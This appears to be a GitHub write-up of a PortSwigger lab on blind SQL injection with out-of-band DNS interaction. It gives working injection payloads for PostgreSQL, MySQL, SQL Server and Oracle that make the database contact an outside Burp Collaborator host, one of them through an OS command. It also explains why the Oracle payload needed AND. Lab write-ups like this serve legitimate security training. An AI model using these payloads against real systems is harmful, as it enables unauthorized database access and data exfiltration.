

# Blind SQL injection with out-of-band interaction

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

## Definition
Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using Burp Collaborator. This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to Burp Suite Professional with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

This will cause the database to perform a lookup for the following domain:
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net

You can use Burp Suite's Collaborator client to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur. 

## Notes
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

**Confirming Vulnerability**  
To start, it is necessary to identify which DBMS is running in the system backend to confirm the vulnerability truly exists and exploit them. Assuming that what is described in the lab description is true, there is no way to achieve this without a trial and error approach, using the out-of-band communication technique to get these answers.

Below there are all payload attempts to identify and the DBMS doing out-of-band communication. It was tried from the most to the least popular (IMHO):

PostgreSQL (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U'; COPY (SELECT '') TO PROGRAM 'nslookup abc.burpcollaborator.net'--
```

MySQL (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U' OR (SELECT LOAD_FILE(concat(‘\\\\’, 'abc', '.burpcollaborator.net\\')))-- 
```

SQL Server (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U'; exec master..xp_dirtree '//abc.burpcollaborator.net/a' 
```

Oracle (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U'+OR+(Select+EXTRACTVALUE(xmltype('<?xml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://abc.burpcollaborator.net">%25remote%3b]>'),'/l')+From+Dual)+IS+NULL--
```

After trying payloads of all DBMS and some variations of them, I looked at the lab solution (no shame at all), and to my surprise, the solution provided was very similar to the one that I used for Oracle DBMS. They used `Union Select` instead of `OR in a where clause`. So the question is, why mine didn't work?

So, I tried another change in my previous Oracle payload as shown below. I switch the "OR" statement to the "AND" and It worked! Why? The answer is simple: logic (or the lack of it in this case).

Oracle (worked)
```sql
...'kzkJFv1M3CN3Aq4U'+AND+(Select+EXTRACTVALUE(xmltype('<?xml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://abc.burpcollaborator.net">%25remote%3b]>'),'/l')+From+Dual)+IS+NULL--
```




It worked this time due to the logical operation in the where clause. In the previous attempt the first criteria `trackingId=kzkJFv1M3CN3Aq4U` is always evaluated to true so there's no need to check the second criteria because the statement used was OR not AND. For that reason, the DNS lookup was never triggered. To prove this idea, I changed the trackingId to an invalid value and used the OR operator in the payload and it worked as well.

```sql
...'kzkJFv1M3CN3Aq4U****'+OR+(Select+EXTRACTVALUE(xmltype('<?xml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://abc.burpcollaborator.net">%25remote%3b]>'),'/l')+From+Dual)+IS+NULL--
```


## Key Words
> sql injection, blind, oracle, out-of-band, oast, dns